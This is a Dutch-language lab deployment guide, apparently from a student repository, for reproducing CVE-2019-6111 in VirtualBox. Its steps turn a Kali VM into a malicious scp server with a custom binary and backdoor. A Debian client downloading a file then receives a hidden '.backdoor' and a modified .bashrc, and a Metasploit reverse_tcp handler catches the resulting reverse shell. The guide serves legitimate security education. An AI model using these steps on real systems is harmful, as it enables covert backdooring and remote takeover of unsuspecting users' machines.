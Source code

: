 # User Deployment Guide - CVE-2019-6111

Deze deployment guide beschrijft alle nodige stappen die vereist zijn om de CVE-2019-6111 exploit uit te voeren, met als resultaat een reverse shell op de Debian client.

## Inhoudsopgave

1.  [Vereisten](#vereisten)
2.  [Instellen Omgeving](#instellen-omgeving)
    1.  [Debian (Jessie) Machine](#debian-jessie-machine)
    2.  [Kali Linux (Rolling) Machine](#kali-linux-rolling-machine)
3.  [CVE-2019-6111](#cve-2019-6111)
4.  [Metasploit](#metasploit)

<div class="page"/>

# Vereisten<a name="vereisten"></a>

-   [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
-   [Bash](https://www.gnu.org/software/bash/) of [PowerShell](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell?view=powershell-7.1)
-   [Git](https://git-scm.com/downloads)
-   [Debian (Jessie) vdi](https://www.osboxes.org/debian/#debian-8-jessie-vbox)
-   [Kali Linux (Rolling) vdi](https://www.osboxes.org/kali-linux/#kali-rolling-vbox)

# Instellen Omgeving<a name="instellen-omgeving"></a>

Om deze exploit te kunnen uitvoeren, moeten we eerst een omgeving opzetten. Hiervoor hebben we twee virtuele machines nodig: een Debian (Jessie) machine en een Kali Linux (Rolling) machine. De Debian machine zal de machine zijn die we willen aanvallen, en de Kali Linux machine zal de machine zijn die we gebruiken om de aanval uit te voeren.

## Debian (Jessie) Machine<a name="debian-jessie-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Dit script is te vinden in de map `src/debian` van deze repository. Om het script uit te voeren, moet je het volgende commando uitvoeren:

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

## Kali Linux (Rolling) Machine<a name="kali-linux-rolling-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Dit script is te vinden in de map `src/kali` van deze repository. Om het script uit te voeren, moet je het volgende commando uitvoeren:

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

Deze exploit vereist dat de Debian client een bestand naar keuze download van een "bad" scp server. De scp server is in dit geval de Kali virtual machine. Om van onze Kali server een "bad" scp server te maken, moeten we een custom `scp` binary installeren. Deze binary is te vinden in de map `src/kali/provision/golang/bin` van deze repository. Om deze binary te installeren, moet je het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
# git clone https://github.com/AntonVanAssche/CSV-NPE2223.git
# cp -r CSV-NPE2223/src/kali/provision/golang/bin/bad_scp /usr/bin/scp
```

Ook zal men de backdoor in de `/tmp` map moeten plaatsen. Deze backdoor is te vinden in de map `src/kali/provision/backdoor` van deze repository. Om deze backdoor te installeren, moet je het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
# cp -r CSV-NPE2223/src/kali/provision/backdoor /tmp/backdoor
```

Deze backdoor is gelinkt aan het IP `192.168.0.121`, daarom moeten we de IP van de Kali machine aanpassen naar a.d.h.v. het `ip.sh` script in de map `src/kali/provision/`. Om dit script uit te voeren, moet je het volgende commando uitvoeren:

```console
$ ./ip.sh
```

Als laatste stap moeten we de `ssh` server opstarten.

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
# systemctl start ssh
```

<div class="page"/>

# CVE-2019-6111<a name="cve-2019-6111"></a>

Het uitvoeren van de exploit is vrij eenvoudig. We moeten enkel een bestand downloaden van de "bad" scp server. Dit bestand kan eender welk bestand zijn. In dit voorbeeld gebruiken we het bestand `testfile.txt`. Om dit bestand te downloaden, moeten we het volgende commando uitvoeren:

```console
$ scp 192.168.0.121:testfile.txt .
```

Na het uitvoeren zal men zien dat er inderdaad een bestand genaamd `testfile.txt` is gedownload. Maar wanneer we `ls -a` doen zal men al snel zien dat er ook een bestand `.backdoor` is gedownload en de `.bashrc` file is aangepast.

# Metasploit<a name="metasploit"></a>

Na dat de backdoor op de Debian client is gedownload, kunnen we een reverse shell opzetten. Hiervoor gebruiken we de Metasploit framework. Om de Metasploit framework te starten, moeten we het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
$ msfconsole -q -x "handler -p linux/aarch64/meterpreter/reverse_tcp -P 4444 -H 192.168.0.121"
```

Van zodra de gebruiker een nieuwe Bash shell opent, zal dit gedetecteerd worden door de Metasploit. Vervolgens kan men dan de sessie starten door het volgende commando uit te voeren:

```console
msf6 > sessions 1
```

Om een reverse shell op te zetten, moeten we dan simpeleweg het volgende commando uitvoeren:

```console
meterpreter > shell
```
